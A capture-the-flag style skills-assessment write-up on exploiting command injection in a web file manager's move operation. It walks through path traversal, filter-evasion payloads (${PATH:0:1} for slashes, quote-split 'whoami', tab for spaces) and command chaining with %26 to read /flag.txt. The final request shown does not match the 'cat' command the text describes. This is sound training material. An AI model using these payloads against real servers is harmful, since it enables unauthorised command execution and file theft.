








## Command Injection — Skills Assessment Write-up


### Objective

The goal of this assessment was to identify and exploit Command Injection vulnerabilities in the web application (the file **move/copy** operations in the file manager UI), confirming the ability to execute arbitrary shell commands and exfiltrate sensitive data (including the flag file).


### Reconnaissance / Initial Access

Using the application's file-management UI I performed basic operations (copy, move) and used the advanced search by filename/folder.



I observed that after moving a file to the `tmp` folder and then using the advanced search, an additional POST request with parameters in the URL was sent alongside the usual POST request. These parameters included the name of the folder to which the file was being moved and the name of the file itself. Interestingly, this request seemed to perform (or attempt to perform) the file **move** operation in addition to — or instead of — the search.



The error received matches what occurs when executing an incorrect move command:

```bash
[*]$ mv /var/www/hello.txt here.txt

mv: cannot stat '/var/www/hello.txt': No such file or directory
```


### Execution & Defense Evasion

Since we now know the command being executed, we can attempt to modify the parameters to move a specific file to our current directory:

```
POST /index.php?to=tmp&from=../../../../etc/passwd&finish=1&move=1 HTTP/1.1
```



This request was blocked by a filter. Otherwise, it would have either executed or returned a standard `mv` error. Likely, the filter prevents execution of commands containing special characters, such as `/`. To bypass this, we can replace `/` with a payload like `${PATH:0:1}`, which retrieves the first character of the `PATH` environment variable:

```
POST /index.php?to=tmp&from=..${PATH:0:1}..${PATH:0:1}..${PATH:0:1}..${PATH:0:1}etc${PATH:0:1}passwd&finish=1&move=1 HTTP/1.1
```



Now we receive a standard `mv` permission error, indicating the command executed correctly. This is expected, as moving such a file to another location is not allowed.

The web application also supports copying files. By removing the `&move=1` parameter, the request attempts a copy operation:



In this case, the payload is escaped and no longer works. Therefore, the `move` request must be used to exploit the vulnerability.

Since moving `/flag.txt` results in the same error as `/etc/passwd`, we attempt a command injection to execute arbitrary commands within the move operation. To do this, we iterate over characters that can terminate the current command and start a new one on the same line (e.g., `;`, `\n`, `&`, `|`, `&&`, `||`, ``` ` ```, `$()`).

Testing the `&` character, URL-encoded as `%26`, produced an error indicating an incomplete `mv` command. The shell attempted to execute `/var/www/html/files/tmp`, confirming that the character successfully split the command:

```
POST /index.php?to=tmp&from=..${PATH:0:1}..${PATH:0:1}..${PATH:0:1}..${PATH:0:1}flag.txt%26&finish=1&move=1 HTTP/1.1
```



To verify command injection, I executed `whoami` with single-quote obfuscation to bypass command name filtering, and appended `&` so that the final `mv` argument would not interfere with our payload:

```
POST /index.php?to=tmp&from=..${PATH:0:1}..${PATH:0:1}..${PATH:0:1}..${PATH:0:1}flag.txt%26wh'oa'mi%26&finish=1&move=1 HTTP/1.1
```


The response contains `www-data`, which is the user under which file operations are executed via the web application.


### Collection

Knowing that the `flag.txt` file is located in the root directory, we can skip listing `/` and execute the final command `cat /flag.txt`. To bypass the space filter, the space is replaced with a tab (`%09`) URL-encoded (`+` did not work):

```
POST /index.php?to=tmp&from=..${PATH:0:1}..${PATH:0:1}..${PATH:0:1}..${PATH:0:1}flag.txt%26%09%26&finish=1&move=1 HTTP/1.1
```



At this point, the final step can be executed to successfully retrieve the flag.




## Conclusion

The parameter responsible for the file move operation (`move`, `from`) was vulnerable to **Command Injection**. By bypassing the slash (`/`) filter using the `${PATH:0:1}` substitution and by splitting commands (`%26`, `&`), I was able to inject and execute arbitrary commands in the context of the web application's process. A verification `whoami` returned `www-data`, and a subsequent `cat /flag.txt` allowed retrieval of the flag contents.

This confirms a critical vulnerability that enables an attacker to execute arbitrary commands on the server, read files, and potentially gain full control of the system.


### Key Takeaways

 - Vulnerability: **Command Injection** in handling file move parameters (move/from).
 - A filter blocked direct slashes (`/`); this was bypassed by reconstructing the path with `${PATH:0:1}`.
 - Command splitting (`&`, URL-encoded to `%26`) allowed terminating the `mv` argument and executing additional shell commands.
 - Executed `whoami` — returned `www-data`, confirming commands run as the web process user.
 - Final `cat /flag.txt` succeeded, demonstrating the ability to read arbitrary files.
 - The copy operation was escaped/blocked — exploitation was possible only via the move mechanism.
